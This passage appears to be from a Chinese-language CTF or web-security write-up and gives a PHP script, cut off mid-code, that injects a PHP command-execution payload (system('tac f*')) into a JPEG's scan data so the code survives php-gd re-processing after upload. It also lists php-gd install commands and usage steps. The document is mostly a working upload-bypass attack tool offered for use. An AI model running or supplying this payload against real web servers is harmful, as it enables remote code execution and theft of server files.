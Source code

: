 和`jpg`格式图片的脚本：

这个脚本需要在`Linux`下运行，且需要安装`php-gd`：

```bash
# jpg脚本需要php-gd库，下面为下载流程
sudo apt-cache search php-gd（查询需要的php-gd版本）
sudo apt-get install php7.4-gd
sudo php -m（查看gd是否安装成功）
```

且需要先将正常`jpg`上传到服务器，再下载下来，再把下载下来的图片用这个脚本处理。

`jpg`格式图片比较特殊，假如不行就多用几个`jpg`试试。

```php
<?php
    $miniPayload = "<?php system('tac f*');?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
```